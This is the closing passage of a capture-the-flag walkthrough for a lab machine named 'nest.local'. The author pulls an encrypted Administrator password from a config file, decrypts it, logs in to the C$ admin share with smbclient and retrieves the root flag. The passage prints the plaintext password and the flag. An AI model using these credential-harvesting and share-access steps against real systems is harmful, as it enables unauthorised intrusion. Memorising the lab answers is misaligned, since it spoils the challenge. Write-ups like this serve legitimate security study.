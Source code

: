 There is a config file and config files are prone to give passwords, so let's
read it.
Hopefully with the debug mode we unlocked the `showquery` = `cat`.

```
>showquery 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

This password is ciphered too, as earlier let's paste it in a search engine:

- VB.Net: https://dotnetfiddle.net/LdhDaa
- C#: https://dotnetfiddle.net/ndCO9U

So the deciphered password is: `XtH4nkS4Pl4y1nGX`.

Let's get root flag via the `C$` share with the `Administrator` account:

```
$ smbclient '\\10.10.10.178\C$' -U 'Administrator'
Unable to initialize messaging context
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Sun Jan 26 08:20:50 2020
  ..                                 DR        0  Sun Jan 26 08:20:50 2020
  desktop.ini                       AHS      282  Sat Jan 25 23:02:44 2020
  root.txt                            A       32  Tue Aug  6 00:27:26 2019

                10485247 blocks of size 4096. 6545277 blocks available
smb: \Users\Administrator\Desktop\> mget root.txt
Get file root.txt? y
getting file \Users\Administrator\Desktop\root.txt of size 32 as root.txt (0,3 KiloBytes/sec) (average 0,3 KiloBytes/sec)

$ cat root.txt
6594c2eb084bc0f08a42f0b94b878c41
```

[nmap]:https://nmap.org/
[cme]:https://github.com/byt3bl33d3r/CrackMapExec
[e4l]:https://github.com/CiscoCXSecurity/enum4linux
[msf]:https://www.metasploit.com/
